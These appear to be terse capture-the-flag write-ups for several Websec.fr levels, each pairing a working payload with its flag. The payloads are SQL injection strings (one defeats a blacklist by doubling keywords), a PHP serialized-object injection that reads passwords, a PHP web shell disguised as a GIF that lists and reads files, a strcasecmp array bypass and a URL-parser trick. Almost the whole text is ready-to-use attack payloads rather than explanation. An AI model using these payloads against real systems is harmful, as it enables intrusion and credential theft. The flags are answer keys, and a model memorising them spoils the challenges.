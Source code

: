 # Websec.fr-Writeups

## Level 1

```sql
0 union select id,password from users; --
```

```
WEBSEC{Simple_SQLite_Injection}
```

## Level 2

```sql
0 ununionion selselectect id,password frfromom users; --
```

```
WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}
```

## Level 4

```php
$s = new SQL();
$s->SQL_query('select password as username from users;');
echo base64_encode(serialize(array("ip" => "109.186.77.58", "exploit" => $s)));

// a:2:{s:2:"ip";s:13:"109.186.77.58";s:7:"exploit";O:3:"SQL":2:{s:5:"query";s:39:"select password as username from users;";s:4:"conn";N;}}

// YToyOntzOjI6ImlwIjtzOjEzOiIxMDkuMTg2Ljc3LjU4IjtzOjc6ImV4cGxvaXQiO086MzoiU1FMIjoyOntzOjU6InF1ZXJ5IjtzOjM5OiJzZWxlY3QgcGFzc3dvcmQgYXMgdXNlcm5hbWUgZnJvbSB1c2VyczsiO3M6NDoiY29ubiI7Tjt9fQ==
```

```
WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}
```

## Level 8

PHP Injected in GIF

```php
GIF89a;

<?php
print_r(scandir("."));
?>
```

```php
GIF89a;

<?php
echo file_get_contents('flag.txt');
?>
```

```
WEBSEC{BypassingImageChecksToRCE}
```

## Level 17

Bypass strcasecmp by providing array instead of string

```yaml
"body": "flag[]=blabla&submit=Go"
```

```
WEBSEC{It_seems_that_php_could_use_a_stricter_typing_system}
```

## Level 25

Exploit url_parse function

```
https://websec.fr/level25/index.php?page=flag&:1337
```

```
https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf
```

```
WEBSEC{How_am_I_supposed_to_parse_uri_when_everything_is_so_broooken}
```
